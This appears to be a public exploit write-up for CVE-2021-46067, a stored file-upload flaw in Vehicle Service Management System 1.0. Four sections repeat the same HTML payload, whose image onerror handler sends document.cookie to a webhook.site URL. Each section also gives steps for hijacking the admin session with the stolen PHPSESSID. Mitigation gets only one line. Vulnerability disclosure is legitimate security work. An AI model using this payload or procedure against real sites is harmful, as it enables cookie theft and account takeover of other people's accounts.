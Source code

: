 # CVE-2021-46067

### Exploit Title: Vehicle Service Management System - 'Multiple' Cookie Stealing Leads to Full Account Takeover
### Exploit Author: <a href="https://www.plsanu.com">P.L.Sanu</a>
### CVE: CVE-2021-46067
### CVSS: 9.8 CRITICAL
### References: 
- https://www.plsanu.com/vehicle-service-management-system-multiple-cookie-stealing-leads-to-full-account-takeover
- https://nvd.nist.gov/vuln/detail/CVE-2021-46067
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-46067

### Description:
In Vehicle Service Management System 1.0 an attacker can steal the cookies leading to Full Account Takeover.

### 1. Vehicle Service Management System - 'MyAccount' (/admin/?page=user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to My Account section http://localhost/vehicle_service/admin/?page=user
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In My Account Section enter all the required details and browse the html file in Avatar.
7. Click on update button.
8. Open the avatar image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### 2. Vehicle Service Management System - 'User List' (/admin/?page=user/manage_user)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to User List section and click on Create New button.
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Create New User Section enter all the required details and browse the html file in Avatar.
7. Click on Save button.
8. Open the avatar image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### 3. Vehicle Service Management System - 'Settings-System Logo' (/admin/?page=system_info)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Settings Section enter all the required details and browse the html file in System Logo.
7. Click on update button.
8. Open the System Logo image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### 4. Vehicle Service Management System - 'Settings-Website Cover' (/admin/?page=system_info)

### Exploit:
1. Login to the admin panel http://localhost/vehicle_service/admin
2. Navigate to Settings section http://localhost/vehicle_service/admin/?page=system_info
3. Generate the Webhook URL - https://webhook.site
4. Copy the Webhook unique URL and paste it in the below html code.

### Code:
```html
<!DOCTYPE html>
<html>
<title>Cookie Stealing</title>
<body>
<img src=x onerror="location.href='https://webhook.site/0d67f7b8-bbc7-4c41-9447-1f5dd07a2954?c='+ document.cookie">
</body>
</html>
```

5. Save the above html code For Ex:Cookie Stealing.html
6. In Settings Section enter all the required details and browse the html file in Website Cover.
7. Click on update button.
8. Open the Website Cover image in new tab and check the Webhook status.
9. We got the request it contains PHPSESSID.
10. Copy the PHPSESSID value and open any another browser.
11. Visit the admin panel http://localhost/vehicle_service/admin
12. Check the cookie values and change the PHPSESSID value to copied PHPSESSID value.
13. Now access the admin panel http://localhost/vehicle_service/admin
14. Successfully loggedin to the account. Account Takeover Successful.

### Impact:
An attacker upload malicious html file it redirects to the third party website and cookies are exposed in the request. It leads to Full Account Takeover.

### Mitigation:
It is recommended to validate the file upload functionality and Perform Secondary Checks in the session.
